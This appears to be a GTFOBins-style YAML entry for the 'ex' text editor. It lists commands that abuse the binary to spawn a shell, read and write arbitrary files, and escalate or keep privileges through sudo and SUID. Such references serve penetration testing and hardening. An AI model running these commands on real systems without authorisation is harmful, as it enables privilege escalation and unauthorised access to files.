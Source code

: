 ```yaml
---
functions:
  shell:
    - code: |
        ex
        !sh
  file-write:
    - code: |
        ex file_to_write
        a
        DATA
        .
        w
        q
  file-read:
    - code: |
        ex file_to_read
        ,p
        q
  sudo:
    - code: |
        sudo ex
        !sh
  suid:
    - code: |
        ./ex
        !sh -p
---
```

